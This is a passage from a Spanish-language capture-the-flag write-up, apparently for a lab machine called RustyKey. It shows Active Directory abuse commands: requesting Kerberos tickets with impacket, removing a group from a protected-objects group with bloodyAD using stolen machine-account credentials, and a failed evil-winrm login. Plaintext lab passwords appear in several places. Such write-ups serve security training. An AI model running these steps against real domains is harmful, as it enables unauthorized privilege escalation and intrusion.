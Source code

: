 >>> solicitamos un ticket kerberos
```bash
impacket-getTGT rustykey.htb/'ee.reed':'Testing123@'
```
```bash
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Kerberos SessionError: KDC_ERR_ETYPE_NOSUPP(KDC has no support for encryption type)
```

y tenemos un error, pero es porque el grupo `SUPPORT` es miembro del Grupo `PROTECTED OBJECTS` asi que al igual que antes, salimos de ese grupo para evitar las restricciones

```bash
bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'PROTECTED OBJECTS' 'SUPPORT'
```
```bash
[-] SUPPORT removed from PROTECTED OBJECTS
```

ahora volvemos a solicitar el ticket kerberos

```bash
impacket-getTGT rustykey.htb/'ee.reed':'Testing123@'
```
```bash
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in ee.reed.ccache
```
seteamos la variable de entorno KRB5CCNAME con el ticket generado

```bash
export KRB5CCNAME=ee.reed.ccache
```

e intentamos acceder via `winrm`

```bash
evil-winrm -i dc.rustykey.htb -u 'ee.reed' -r rustykey.htb
```
```bash
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type GSSAPI::GssApiError happened, message is gss_init_sec_context did not return GSS_S_COMPLETE: Invalid token was supplied
Success

                                        
Error: Exiting with code 1
malloc_consolidate(): unaligned fastbin chunk detected
zsh: IOT instruction  evil-winrm -i dc.rustykey.htb -u 'ee.reed' -r rustykey.htb
```
